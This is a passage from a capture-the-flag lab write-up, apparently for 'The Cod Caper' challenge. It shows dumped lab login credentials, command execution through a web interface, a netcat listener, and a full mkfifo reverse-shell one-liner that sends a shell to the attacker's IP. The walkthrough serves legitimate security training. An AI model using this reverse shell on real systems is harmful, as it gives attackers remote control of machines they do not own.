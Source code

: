 With this, we get a nice and clean output:
```
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```
Awsome!

# *Get a Shell*
By logging in with the above credentials we get this interface:

>>![Command](/assets/CodCaper_Command.png)

Can we actually run commands? Let's try...

>>![ls](/assets/TheCodCaper_ls.png)

Nice!
So let's try to get a reverse shell. First we set up a simple tcp server on our pc by using [netcat](https://en.wikipedia.org/wiki/Netcat). The following will do the job:
{% highlight bash %}
nc -nvlp 1999
{% endhighlight %}
```
-n #Ignores dns lookup
-l #Listens
-p 1999 #Specifies the port
-v # Verbose output

```
Now we want the server to connect to our host on port 1999 by running some command on the server. There are multiple ways to archive this, and I tested more then one. I end up using:
{% highlight bash %}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $YOUR_IP 1999 >/tmp/f
{% endhighlight %}
Here we are simply running netcat with some stdin stdout redirection magic. You can read more about how this reverse shell works [here](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498).
If we run the above command and look at our terminal, we recive a connection and get a Shell!